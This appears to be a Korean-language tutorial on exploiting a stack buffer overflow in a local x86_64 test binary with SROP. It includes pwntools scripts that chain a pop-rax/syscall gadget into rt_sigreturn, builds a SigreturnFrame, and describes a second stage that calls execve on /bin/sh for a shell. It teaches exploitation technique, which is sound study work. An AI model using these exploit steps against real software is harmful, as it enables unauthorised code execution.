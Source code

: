 본 예제는 16바이트의 버퍼에 1024바이트를 입력받기 때문에 스택 버퍼 오버플로우가 발생한다. 스택 버퍼 오버플로우를 x86_64 SROP를 이용해 익스플로잇 해보자

우선 pop %rax syscall ret 가젯의 주소를 알아낸다.(no pie)

```c
#srop_test.py
from pwn import *
p = process("./srop")
gadget = 0x40052a # pop rax; syscall
payload = "A"*16
payload += "B"*8
payload += p64(gadget)
payload += p64(15) # sigreturn
payload += "\\x00"*40 # dummy
payload += p64(0x4141414141414141)*20
p.sendline(payload)
p.interactive()
```

srop_test.py는 pop rax ; syscall 가젯을 사용하여 rax 레지스터를 rt_sigreturn의 시스템 콜 번호인 15로 설정하고 syscall 명령어를 실행하는 스크립트이다.

rt_sigreturn 시스템 콜이 호출되었을 때의 레지스터를 보자.

![](https://i.imgur.com/XK6h8vM.png)


레지스터의 값들이 스택에 저장되어 있던 값들로 바뀌어 있는 것을 확인할 수 있다.

### 익스코드

pwntools의 SigreturnFrame은 SROP 익스플로잇을 위한 클래스이다. SROP를 이용해 공격을 할 때는 sigcontext 구조체에 맞게 공격 코드를 구성해야 하는 번거로움이 있지만 SigreturnFrame를 사용하면 비교적 쉽게 SROP 공격 코드를 만들 수 있다.

```python
>>> from pwn import *
>>> context.clear(arch='amd64')
>>> frame = SigreturnFrame()
>>> frame.rdi = 0x41414141
>>> frame.rax = 59
>>> frame.rsi = 12341234
>>> print str(frame).encode('hex')
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004141414100000000f24fbc00000000000000000000000000000000000000000000000000000000003b00000000000000000000000000000000000000000000000000000000000000000000000000000033000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

아키텍처마다 sigcontext 구조체가 다르기 때문에 pwntools에 아키텍처 정보를 명시해줘야 한다.

srop.py 에서는 SROP를 통해 read 시스템 콜을 호출하여 bss 영역에 0x1000 바이트만큼 입력받고 rsp 레지스터를 bss 영역의 주소로 바꿔 다시 한 번 ROP를 할 수 있게 한다.

두번째 페이로드에서 SROP를 이용해 rax 레지스터를 execve 시스템 콜 번호인 0x3b로 조작하고, rdi 레지스터를 /bin/sh 문자열이 존재하는 주소로 조작한 후 syscall 명령어를 실행해 셸을 획득한다.
